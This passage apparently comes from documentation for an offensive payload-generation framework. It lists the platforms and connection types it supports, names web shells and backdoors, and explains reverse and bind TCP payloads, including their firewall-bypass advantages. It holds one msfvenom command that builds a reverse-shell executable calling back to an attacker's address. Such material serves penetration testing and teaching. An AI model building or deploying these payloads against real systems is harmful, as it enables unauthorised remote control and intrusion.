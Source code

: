 ### 4. Android Platform
- **Operating System**: Android 4.0+ (API level 14+)
- **Architecture**: ARM, ARM64, x86, x64
- **Payload Types**: APK, DEX
- **Connection Types**: Reverse TCP, Bind TCP, Reverse HTTP, Reverse HTTPS

### 5. Java Platform
- **Java Version**: Java 6, 7, 8, 11, 17+
- **Architecture**: Cross-platform
- **Payload Types**: JAR, WAR
- **Connection Types**: Reverse TCP, Bind TCP, Reverse HTTP, Reverse HTTPS

### 6. Web Platform
- **Technologies**: PHP, JSP, ASPX
- **Web Servers**: Apache, Nginx, IIS
- **Payload Types**: Web Shells, Backdoors
- **Connection Types**: HTTP, HTTPS

## Payload Types

### 1. Reverse TCP Payloads

#### Description
Reverse TCP payloads establish a connection back to the attacker's machine.

#### Advantages
- **Firewall Bypass**: Often bypasses outbound firewall rules
- **NAT Traversal**: Works through NAT devices
- **Dynamic IP**: Works with dynamic IP addresses
- **Reliability**: Generally more reliable than bind payloads

#### Configuration
- **LHOST**: Attacker's IP address
- **LPORT**: Attacker's listening port
- **Payload**: Platform-specific payload type

#### Example
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f exe -o payload.exe
```

### 2. Bind TCP Payloads

#### Description
Bind TCP payloads listen on a port and wait for the attacker to connect.

#### Advantages
- **Direct Connection**: Direct connection to target
- **No Outbound**: No outbound connections required
- **Simple Setup**: Simple setup process
- **Local Network**: Works well on local networks
